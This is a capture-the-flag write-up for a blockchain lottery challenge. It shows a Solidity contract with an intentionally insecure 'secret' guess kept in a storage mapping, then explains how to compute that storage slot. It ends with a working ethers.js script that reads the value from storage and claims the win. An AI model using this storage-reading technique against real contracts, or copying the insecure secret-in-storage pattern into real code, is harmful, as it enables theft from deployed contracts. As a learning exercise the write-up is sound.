

## Description

> Imagine that. Someone comes up to you in the street, and tells you  \
> <em>"Give me 10\$, and guess my number. If you do, I give you 1000000\$"</em> \
> Now the risk reward is pretty ridiculous, but so are your chances of winning. \
> Well it's the exact same here. Or is it ? Can you read thoughts ?

## Resolution

We start with a Solitidy smart contract we can ask to deploy to an address on the custom Ethereum like blockchain of the CTF. We also have a verify button used to check if we've won the lottery and give us the flag if we do.

```solidity
pragma solidity ^0.8.10;

contract onChainLotterySecuredx20000
{
   /*
    Ok, so everyone wants this "super onChain PRNG". I think i might've found a way
    */ 
    bool hasWon = false;
    mapping (address => uint256) secured_HasH2GueSs;

    constructor () payable {}

    function getPrizePool() external view returns (uint256)
    {
        return address(this).balance;
    }

    function setupMaHash() external
    {
        require(secured_HasH2GueSs[msg.sender] == 0, "Already played, think i'm a fool ?");
        uint256 shuffler = block.timestamp % 25;
        uint256 val = uint256(blockhash(block.number - shuffler)) % block.gaslimit
                      + gasleft();

        secured_HasH2GueSs[msg.sender] = val;
    }

    function trynaGuessMyhash(uint256 guessed) external
    {
        require(secured_HasH2GueSs[msg.sender] != 0, "Really...");
        require(secured_HasH2GueSs[msg.sender] == guessed);
        hasWon = true;

    }

    function verify() external view returns (bool)
    {
        return hasWon;
    }
}
```

We can only call once the `setupMaHash` function of the contract to generate our attributed guess numer. The PRNG used to compute the number itself seems pretty complicated, predicting it musn't be the purpose of this challenge.

However, recall that **everything is public on the blockchain**. We can see any value stored in the storage of any contract. We just have to know the slot of what we want to read.

As our guess number is stored in a slot of the contract's storage, and because we know the contract is written in Solidity, we can apply [Solidity's storage layout convention](https://docs.soliditylang.org/en/v0.8.13/internals/layout_in_storage.html) to know exactly what is the slot attributed to our guess.

All types except dynamically sized arrays and mappings are stored contiguously, one after the other, starting at slot 0.

Mappings and dynamically sized arrays, because their size is not fixed, are stored differently. For the mappings, which is what we're interested in for this challenge, a slot is still reserved as if the mapping was a fixed size type, but nothing is stored in this slot (the value stored here remains the default value 0).<br>
The real values in the mapping are stored using the following formula:

```
keccak256(h(k) . p)
```

Where keccak256 is a hash function of the SHA3 family, `k` is the key associated to the value, `h` is a function that pads the value to 32 bytes, `.` is the concatenation and `p` is the contiguous slot number that has been reserved for the mapping.

Because the mapping is the second variable defined in the contract, we know its reserved slot will be `1`. We also know the key of our guess number, that will be our address. We have all the informations needed to compute the slot of our guess number.

I automated the process in JavaScript with the [Ethers](https://docs.ethers.io/v5/) library.

```js
(async () => {
    const provider = new ethers.providers.Web3Provider(window.ethereum)
    await provider.send("eth_requestAccounts", []);
    const signer = provider.getSigner()

    const myAddress = "0x8112593a39Ca3a18223805e19CcFc1937f2E25c0" // feel free to send me ETH if you want to, it's my real Ethereum address :))

    // just copy paste the contract source code to Remix to retrieve its ABI
    const abi = [
        {
            "inputs": [],
            "name": "setupMaHash",
            "outputs": [],
            "stateMutability": "nonpayable",
            "type": "function"
        },
        {
            "inputs": [
                {
                    "internalType": "uint256",
                    "name": "guessed",
                    "type": "uint256"
                }
            ],
            "name": "trynaGuessMyhash",
            "outputs": [],
            "stateMutability": "nonpayable",
            "type": "function"
        },
        {
            "inputs": [],
            "stateMutability": "payable",
            "type": "constructor"
        },
        {
            "inputs": [],
            "name": "getPrizePool",
            "outputs": [
                {
                    "internalType": "uint256",
                    "name": "",
                    "type": "uint256"
                }
            ],
            "stateMutability": "view",
            "type": "function"
        },
        {
            "inputs": [],
            "name": "verify",
            "outputs": [
                {
                    "internalType": "bool",
                    "name": "",
                    "type": "bool"
                }
            ],
            "stateMutability": "view",
            "type": "function"
        }
    ]

    const contractAddress = "0x1D54b1Bb1e059cCE055d53eA62cdb096c79FFD7b"
    const contract = new ethers.Contract(contractAddress, abi, provider)
    const contractWithSigner = contract.connect(signer)

    try {
        const tx = await contractWithSigner.setupMaHash()
        console.log("Waiting for the hash setup transaction to complete...")
        await tx.wait()
    }
    catch {
        console.log("Hash already setup")
    }

    const myPaddedAddress = "0x" + "0".repeat(66 - myAddress.length) + myAddress.slice(2)
    const slot = "0".repeat(63) + "1"
    const myGuessAddress = ethers.utils.keccak256(myPaddedAddress + slot)

    const guess = parseInt(await provider.getStorageAt(contractAddress, myGuessAddress), 16)

    console.log("The guess is", guess)

    const tx = await contractWithSigner.trynaGuessMyhash(guess)
    console.log("Waiting for the unlock transaction to complete...")
    await tx.wait()

    console.log("Contract unlocked!")
})()
```

All we have to do is run this script in our browser with Metamask installed and configured for the CTF's custom blockchain (I was lazy and delegated the transactions and signatures stuff to Metamask instead of messing with Python's web3 library to do these things 100% from code).

We click on the verify button on the website and get the flag:



Flag: `Hero{keccack256(Nath_The_Menace_2_Society}`